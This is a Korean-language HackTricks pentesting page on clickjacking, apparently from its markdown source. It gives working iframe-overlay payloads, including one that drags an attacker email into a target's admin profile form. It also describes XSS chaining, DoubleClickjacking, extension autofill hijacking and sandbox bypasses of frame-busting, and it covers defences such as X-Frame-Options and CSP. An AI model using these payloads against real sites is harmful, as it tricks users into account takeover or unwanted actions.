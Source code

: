 # Clickjacking

{{#include ../banners/hacktricks-training.md}}

## Clickjacking이란

In a clickjacking attack, a **사용자**는 웹페이지의 **요소**를 **보이지 않게** 하거나 다른 요소로 위장하여 **클릭하도록** **속게 됩니다**. 이러한 조작은 사용자에게 원치 않는 결과를 초래할 수 있으며, 예를 들어 malware 다운로드, 악성 웹페이지로의 리다이렉션, 자격증명이나 민감한 정보 제공, 금전 이체, 또는 온라인 상품 구매 등이 있습니다.

### Prepopulate forms trick

때때로 **페이지 로딩 시 GET 파라미터를 사용하여 폼 필드의 값을 채우는 것**이 가능합니다. 공격자는 이 동작을 악용해 임의의 데이터로 폼을 채우고 clickjacking payload를 전송하여 사용자가 Submit 버튼을 누르게 만들 수 있습니다.

### Drag\&Drop으로 폼 채우기

사용자에게 **폼을 채우도록** 해야 하는데, 이메일이나 (공격자가 알고 있는) 특정 비밀번호처럼 특정 정보를 직접 입력해 달라고 요청하고 싶지 않다면, 사용자가 **Drag\&Drop** 하도록 요청하여 제어된 데이터가 입력되게 할 수 있습니다. 예시는 [**this example**](https://lutfumertceylan.com.tr/posts/clickjacking-acc-takeover-drag-drop/)를 참고하세요.

### 기본 Payload
```css
<style>
iframe {
position:relative;
width: 500px;
height: 700px;
opacity: 0.1;
z-index: 2;
}
div {
position:absolute;
top:470px;
left:60px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```
### 다단계 Payload
```css
<style>
iframe {
position:relative;
width: 500px;
height: 500px;
opacity: 0.1;
z-index: 2;
}
.firstClick, .secondClick {
position:absolute;
top:330px;
left:60px;
z-index: 1;
}
.secondClick {
left:210px;
}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```
### Drag\&Drop + Click payload
```css
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
### XSS + Clickjacking

사용자가 어떤 요소를 클릭해야 **트리거되는 XSS 공격**을 확인했고 해당 페이지가 **clickjacking에 취약**하다면, 버튼/링크를 클릭하도록 사용자를 속이는 데 이를 악용할 수 있습니다.\
예시:\
계정의 일부 비공개 정보(**오직 본인만 설정하고 읽을 수 있는** 세부 정보)에서 **self XSS**를 발견했다고 가정합니다. 이 정보를 설정하는 **form** 페이지가 **Clickjacking**에 취약하며, GET 파라미터로 **form**을 **prepopulate**할 수 있습니다.\
공격자는 해당 페이지에 **Clickjacking** 공격을 준비해 **form**을 **XSS payload**로 **prepopulating**하고, 사용자를 속여 **form**을 **Submit**하도록 만들 수 있습니다. 따라서 **form이 제출될 때** 값들이 변경되면, **사용자가 XSS를 실행**하게 됩니다.


### DoubleClickjacking

우선 [이 포스트](https://securityaffairs.com/172572/hacking/doubleclickjacking-clickjacking-on-major-websites.html)에서 처음 설명된 바와 같이, 이 기법은 피해자에게 특정 위치에 배치된 커스텀 페이지의 버튼을 더블클릭하도록 유도한 다음, mousedown과 onclick 이벤트 간의 타이밍 차이를 이용해 더블클릭 중에 피해자 페이지를 로드하여 **피해자가 실제로 피해자 페이지의 정상 버튼을 클릭하게** 합니다.

An example could be seen in this video: [https://www.youtube.com/watch?v=4rGvRRMrD18](https://www.youtube.com/watch?v=4rGvRRMrD18)

A code example can be found in [this page](https://www.paulosyibelo.com/2024/12/doubleclickjacking-what.html).

> [!WARNING]
> 이 기법은 사용자를 피해자 페이지의 한 위치를 클릭하도록 속여 clickjacking에 대한 모든 보호를 우회할 수 있게 합니다. 따라서 공격자는 **OAuth 권한 수락 같은 단 한 번의 클릭으로 수행 가능한 민감한 동작**을 찾아야 합니다.

### Browser extensions: DOM-based autofill clickjacking

피해자 페이지를 iframe으로 불러오는 것 외에도, 공격자는 페이지에 주입된 browser extension의 UI 요소를 노릴 수 있습니다. Password managers는 포커스된 입력 근처에 autofill 드롭다운을 렌더링합니다; 공격자가 제어하는 필드에 포커스를 주고 extension의 드롭다운을 숨기거나 가리기(opacity/overlay/top-layer tricks)하면, 강제된 사용자 클릭으로 저장된 항목을 선택해 민감한 데이터를 공격자가 제어하는 입력으로 채우게 할 수 있습니다. 이 변형은 iframe 노출이 필요 없으며 전적으로 DOM/CSS 조작으로 동작합니다.

- 구체적인 기법과 PoCs는 다음을 참조하세요:
-
{{#ref}}
browser-extension-pentesting-methodology/browext-clickjacking.md
{{#endref}}

## Strategies to Mitigate Clickjacking

### Client-Side Defenses

클라이언트 측에서 실행되는 스크립트는 Clickjacking을 방지하기 위해 다음과 같은 동작을 수행할 수 있습니다:

- 애플리케이션 창이 메인 또는 최상위 창인지 확인.
- 모든 프레임을 표시.
- 보이지 않는 프레임에서의 클릭 방지.
- 잠재적인 Clickjacking 시도를 탐지하고 사용자에게 경고.

하지만 이러한 frame-busting scripts는 우회될 수 있습니다:

- **Browsers' Security Settings:** 일부 브라우저는 보안 설정이나 JavaScript 미지원으로 인해 이러한 스크립트를 차단할 수 있습니다.
- **HTML5 iframe sandbox Attribute:** 공격자는 sandbox 속성에 allow-forms 또는 allow-scripts 값을 주고 allow-top-navigation을 제외함으로써 frame buster 스크립트를 무력화할 수 있습니다. 이렇게 하면 iframe이 자신이 최상위 창인지 확인하지 못하게 됩니다. 예:
```html
<iframe
id="victim_website"
src="https://victim-website.com"
sandbox="allow-forms allow-scripts"></iframe>
```
The allow-forms and allow-scripts values enable actions within the <iframe> while disabling top-level navigation. To ensure the intended functionality of the targeted site, additional permissions like allow-same-origin and allow-modals might be necessary, depending on the attack type. Browser console messages can guide which permissions to allow.

### 서버 측 방어

#### X-Frame-Options

The **X-Frame-Options HTTP response header**는 브라우저에 페이지를 <frame> 또는 <iframe>으로 렌더링하는 것이 정당한지 알려 주어 Clickjacking을 방지하는 데 도움을 줍니다:

- X-Frame-Options: deny - 어떤 도메인도 콘텐츠를 프레임으로 표시할 수 없습니다.
- X-Frame-Options: sameorigin - 현재 사이트만 콘텐츠를 프레임으로 표시할 수 있습니다.
- X-Frame-Options: allow-from https://trusted.com - 지정된 'uri'만 페이지를 프레임할 수 있습니다.
- 제한 사항에 유의: 브라우저가 이 지시자를 지원하지 않으면 동작하지 않을 수 있습니다. 일부 브라우저는 CSP frame-ancestors 지시어를 선호합니다.

#### Content Security Policy (CSP) frame-ancestors directive

**frame-ancestors directive in CSP**는 Clickjacking 방지를 위한 권장 방법입니다:

- frame-ancestors 'none' - X-Frame-Options: deny와 유사합니다.
- frame-ancestors 'self' - X-Frame-Options: sameorigin와 유사합니다.
- frame-ancestors trusted.com - X-Frame-Options: allow-from와 유사합니다.

예를 들어, 다음 CSP는 같은 도메인에서만 프레이밍을 허용합니다:

Content-Security-Policy: frame-ancestors 'self';

추가 세부사항과 복잡한 예제는 [frame-ancestors CSP documentation](https://w3c.github.io/webappsec-csp/document/#directive-frame-ancestors) 및 [Mozilla's CSP frame-ancestors documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)에서 확인할 수 있습니다.

### Content Security Policy (CSP)와 child-src 및 frame-src

**Content Security Policy (CSP)**는 브라우저가 어떤 소스에서 콘텐츠를 로드하도록 허용할지 지정하여 Clickjacking 및 기타 코드 주입 공격을 방지하는 데 도움이 되는 보안 대책입니다.

#### frame-src 지시어

- 프레임에 대한 유효한 소스를 정의합니다.
- default-src 지시어보다 더 구체적입니다.
```
Content-Security-Policy: frame-src 'self' https://trusted-website.com;
```
이 정책은 동일 출처(self) 및 https://trusted-website.com의 프레임을 허용합니다.

#### child-src 디렉티브

- CSP level 2에서 web workers와 frames에 대한 유효한 소스를 설정하기 위해 도입되었습니다.
- frame-src 및 worker-src의 대체(fallback) 역할을 합니다.
```
Content-Security-Policy: child-src 'self' https://trusted-website.com;
```
이 정책은 동일 출처(self) 및 https://trusted-website.com의 frames와 workers를 허용합니다.

**사용 시 참고:**

- 사용 중단: child-src는 frame-src 및 worker-src로 대체되는 방향으로 점진적으로 사용 중단되고 있습니다.
- 대체 동작: frame-src가 없으면 child-src가 프레임의 대체로 사용됩니다. 둘 다 없으면 default-src가 사용됩니다.
- 엄격한 출처 정의: 디렉티브(directives)에 신뢰할 수 있는 출처만 포함시켜 악용을 방지하세요.

#### JavaScript 프레임 차단 스크립트

완벽하지는 않지만, JavaScript 기반의 프레임 차단 스크립트는 웹 페이지가 프레임에 포함되는 것을 방지하는 데 사용될 수 있습니다. 예시:
```javascript
if (top !== self) {
top.location = self.location
}
```
#### Anti-CSRF Tokens 사용

- **토큰 검증:** 웹 애플리케이션에서 anti-CSRF tokens를 사용하여 상태 변경 요청(state-changing requests)이 사용자의 의도에 의해 이루어졌는지 확인하고 Clickjacked 페이지를 통한 요청이 되지 않도록 하세요.

## 참고자료

- [**https://portswigger.net/web-security/clickjacking**](https://portswigger.net/web-security/clickjacking)
- [**https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html**](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
- [DOM-based Extension Clickjacking (marektoth.com)](https://marektoth.com/blog/dom-based-extension-clickjacking/)

{{#include ../banners/hacktricks-training.md}}
